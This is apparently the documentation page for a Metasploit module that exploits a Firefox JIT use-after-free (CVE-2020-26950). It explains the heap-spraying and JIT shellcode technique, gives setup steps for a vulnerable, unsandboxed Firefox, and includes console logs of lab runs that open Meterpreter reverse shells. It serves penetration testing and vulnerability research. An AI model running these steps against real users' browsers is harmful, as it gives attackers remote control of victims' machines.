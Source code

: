 ## Vulnerable Application

This modules exploits CVE-2020-26950, a use after free exploit in Firefox.
The MCallGetProperty opcode can be emitted with unmet assumptions resulting
in an exploitable use-after-free condition.

This exploit uses a somewhat novel technique of spraying ArgumentsData
structures in order to construct primitives. The shellcode is forced into
executable memory via the JIT compiler, and executed by writing to the JIT
region pointer.

This exploit does not contain a sandbox escape, so firefox must be run
with the MOZ_DISABLE_CONTENT_SANDBOX environment variable set, in order
for the shellcode to run successfully.

This vulnerability affects Firefox < 82.0.3, Firefox ESR < 78.4.1, and
Thunderbird < 78.4.2, however only Firefox < 82 is supported as a target.
Additional work may be needed to support other versions such as Firefox 82.0.1.

**Vulnerable Application Installation Steps**

You can download and run a vulnerable firefox version on Linux with the following commands:
```
wget https://ftp.mozilla.org/pub/firefox/releases/79.0/linux-x86_64/en-US/firefox-79.0.tar.bz2
tar xvf firefox-79.0.tar.bz2
cd firefox
MOZ_DISABLE_CONTENT_SANDBOX=1 ./firefox
```

You can also download a vulnerable firefox version for Windows from the following location:
[https://ftp.mozilla.org/pub/firefox/releases/79.0/win64/en-US/](https://ftp.mozilla.org/pub/firefox/releases/79.0/win64/en-US/)

## Verification Steps

1. Do: `use exploit/multi/browser/firefox_jit_use_after_free`
1. Do: `set payload [PAYLOAD]`
1. Do: `set URIPATH /`
1. Do: `set LHOST [IP]`
1. Do: `set SRVHOST [IP]`
1. Do: `exploit`

## Options

### DEBUG_EXPLOIT

Show debug information during exploitation.  This will display details of the exploit during exploitation, which is useful for debugging.

## Scenarios


### Windows 10 and Firefox 79.0 with MOZ_DISABLE_CONTENT_SANDBOX=1

Start firefox without a sandbox with the following .bat file:
```
@echo off
set MOZ_DISABLE_CONTENT_SANDBOX=1
"C:\Program Files (x86)\Mozilla Firefox\firefox.exe"
```


```
msf6 > use exploit/multi/browser/firefox_jit_use_after_free
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/browser/firefox_jit_use_after_free) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/browser/firefox_jit_use_after_free) > set URIPATH /
URIPATH => /
msf6 exploit(multi/browser/firefox_jit_use_after_free) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf6 exploit(multi/browser/firefox_jit_use_after_free) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf6 exploit(multi/browser/firefox_jit_use_after_free) >
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Using URL: http://192.168.56.1:8080/
[*] Server started.
[*] 192.168.56.3     firefox_jit_use_after_free - Sending / to Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
[*] Sending stage (200262 bytes) to 192.168.56.3
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.3:49737 ) at 2022-02-16 08:23:53 +0000

```

### Ubuntu 18 and Firefox 79.0 with MOZ_DISABLE_CONTENT_SANDBOX=1 and DEBUG_EXPLOIT enabled

Start Firefox without a sandbox, e.g:
`MOZ_DISABLE_CONTENT_SANDBOX=1 ./firefox`

```
msf6 > use exploit/multi/browser/firefox_jit_use_after_free
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/browser/firefox_jit_use_after_free) > set URIPATH /
URIPATH => /
msf6 exploit(multi/browser/firefox_jit_use_after_free) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf6 exploit(multi/browser/firefox_jit_use_after_free) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf6 exploit(multi/browser/firefox_jit_use_after_free) > set DEBUG_EXPLOIT true
DEBUG_EXPLOIT => true
msf6 exploit(multi/browser/firefox_jit_use_after_free) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/browser/firefox_jit_use_after_free) >
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Using URL: http://192.168.56.1:8080/
[*] Server started.
[*] 192.168.56.1     firefox_jit_use_after_free - Sending / to Mozilla/5.0 (X11; Linux x86_64; rv:79.0) Gecko/20100101 Firefox/79.0
[*] 192.168.56.1     firefox_jit_use_after_free - [+] got the corrupted array 16384
[*] 192.168.56.1     firefox_jit_use_after_free - [+] Leaked nursery location: 4aee8a4f6d8
[*] 192.168.56.1     firefox_jit_use_after_free - [+] AD location: 7f27fb9cc000
[*] 192.168.56.1     firefox_jit_use_after_free - [+] AB Location: 7f27e7200000
[*] 192.168.56.1     firefox_jit_use_after_free - [+] Function is at: 10d4c755fac0
[*] 192.168.56.1     firefox_jit_use_after_free - [+]   jitinfo: 10d4c7564150
[*] 192.168.56.1     firefox_jit_use_after_free - [+]   RX Region: 3774356d0e50
[*] 192.168.56.1     firefox_jit_use_after_free - [+] Shellcode start: 3774356d1030
[*] 192.168.56.1     firefox_jit_use_after_free - [*] Triggering...
[*] Sending stage (3020772 bytes) to 192.168.56.1
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.1:34946 ) at 2022-02-16 08:18:11 +0000
```
